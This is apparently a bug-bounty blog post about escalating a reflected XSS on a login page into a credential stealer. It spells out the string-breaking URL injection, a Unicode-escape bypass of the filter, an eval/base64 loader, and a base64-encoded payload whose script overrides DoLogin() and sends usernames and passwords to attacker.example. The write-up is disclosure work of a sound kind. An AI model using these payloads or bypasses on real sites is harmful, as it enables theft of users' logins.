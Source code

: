 ```yaml
---
layout: post
title: "From \"Low-Impact\" RXSS to Credential Stealer: A JS-in-JS Walkthrough"
date: 2025-08-25T08:14:54+00:00
img_dir: "/assets/2025-08-25-rxss-credential-stealer/images"
description: "From the classic “quote break” in a <script> to a login takeover: step by step, I show how a “low-impact” RXSS becomes a real credential stealer."
categories: [bugbounty]
---
```

![Cover]({{ page.img_dir | relative_url }}/cover.png) 

# From "Low-Impact" RXSS to Credential Stealer: A JS-in-JS Walkthrough

Ethical note: the following is for educational purposes and documents a real case in an authorized context (bug bounty). Do not perform attacks on systems without permission.

During my hunt, I found an RXSS that was apparently “harmless” and had little impact because all cookies were set with the “HttpOnly” flag, so it was not possible to steal the session cookie. If I had sent the report as it was, it would have been treated as Low/Medium, so I decided to find something to present to the program company that would make it a High.
Since the vulnerability was on the login page of a web app, I decided to turn the XSS into a kind of “phishing” attack.

## Context

The login page renders several server-side variables into a `<script>` block. One of them—coming from a query parameter (`l`)—is echoed inside a JavaScript string:

```html
<script>
  /* ... */
  var AspInterfaceLanguage = "test"; // ← user-controlled
  /* ... */
</script>
```

This is the classic **JS-in-JS sink**: if you can close the string and re-enter code context, you execute arbitrary JavaScript without touching HTML at all.

### Finding the break point

The goal is to use `l` to **close** the string, **inject** code, and then **repair** the syntax so the rest of the page parses cleanly.

A minimal mental model of the injected sequence:

```
"            // end the original string
;            // finish the statement defensively
<INJECTION>  // run my JavaScript
; a = "      // resume the string the page expects
```
So the URL looks something like this: 
`/Login.asp?IdSite=0&Error=&l=test";<INJECTION>;a="`

Which is reflected in this way : 

```html
<script>
    /* ... */
    var AspInterfaceLanguage = "test"<INJCETION>;a="";
    /* ... */
</script>
```

Before proceeding with the exploit there is a clarification to be made the webapp has a WAF system in front that recognizes possible malicious javascript patterns (alert/eval etc.) and blocks requests
So to bypass this control, unicode was used in this way :

```javascript
\u0061\u006C\u0065\u0072\u0074(1) // alert(1)
```
I don't know if it's a WAF or a backend check, but it's really weak and stupid.

So the payload to trigger an alert is:
`/Login.asp?IdSite=0&Error=&l=test";\u0061\u006C\u0065\u0072\u0074(1);a="`

## Convert XSS into "Credential Stealer" to increase impact

Analyzing the login page, I noticed that the login form was managed by a JS function `DoLogin()` declared in another `<script>` tag further down. 

```html

<script>

/* ..... */

function DoLogin() {

    /* ...... */
    
    var user = Trim(FormInput.InputUtente.value)
    var password = Trim(FormInput.InputPassword.value) 
        
    /* ...... */

}

/* ..... */

</script>
```

So I thought that if I replaced the content of the `DoLogin()` function with malicious code, I would have control over the login process. For Example : 

```javascript

const DoLogin = () => {
  const pwd  = Trim(FormInput.InputPassword.value);
  const user = Trim(FormInput.InputUtente.value);

  // PoC: send to a controlled listener
  fetch("https://attacker.example/?" +
        "u=" + encodeURIComponent(user) +
        "&p=" + encodeURIComponent(pwd));
};

```
I use `const` to prevent the function from being redefined later with the legitimate one in the `<script>` tag below.

However, this payload converted to Unicode became extremely long, so I decided to use eval+base64 to make it more deliverable.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('<BASE_64_PAYLOAD>'))  // eval(atob('<BASE_64_PAYLOAD>'))

```

At this point, I encountered a problem and discovered that if you use `const` or `let` inside `eval()`, the declared variables/functions are not accessible globally but remain accessible only inside `eval()`.  [eval() reference](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

So, to avoid this problem, I created a new script element that contains the payload. 

```javascript
var s=document.createElement('script');
s.textContent="const DoLogin = () => {const pwd = Trim(FormInput.InputPassword.value); const user = Trim(FormInput.InputUtente.value); fetch('https://attacker.example/?u='+encodeURIComponent(user)+'&p='+encodeURIComponent(pwd));}";
document.head.appendChild(s);
```

Now let's encode all of the above code in base64 and insert it into the final payload.

```javascript

\u0065\u0076\u0061\u006C(\u0061\u0074\u006F\u0062('dmFyIHM9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7DQpzLnRleHRDb250ZW50PSJjb25zdCBEb0xvZ2luID0gKCkgPT4ge2NvbnN0IHB3ZCA9IFRyaW0oRm9ybUlucHV0LklucHV0UGFzc3dvcmQudmFsdWUpOyBjb25zdCB1c2VyID0gVHJpbShGb3JtSW5wdXQuSW5wdXRVdGVudGUudmFsdWUpOyBmZXRjaCgnaHR0cHM6Ly9hdHRhY2tlci5leGFtcGxlLz91PScrZW5jb2RlVVJJQ29tcG9uZW50KHVzZXIpKycmcD0nK2VuY29kZVVSSUNvbXBvbmVudChwd2QpKTt9IjsNCmRvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQocyk7'))

```

### Execution order: the tiny detail that changes everything

The **vulnerable** `<script>` (the one with var `AspInterfaceLanguage = "..."`) appears **before** the script that defines the legitimate DoLogin(). That means:

1. The payload runs **immediately** as the parser processes the first `<script>`.

2. The injector adds a new `<script>` that declares `const DoLogin` **first**.

3. When the later script tries to declare `function DoLogin(){...}`, the name is **already bound**, leaving my hook in control.


## Conclusion 

With this little trick, I turned a simple, low-impact XSS into a “Credential Stealer.” The triager evaluated and accepted it as High, and I received a bounty of €1,200.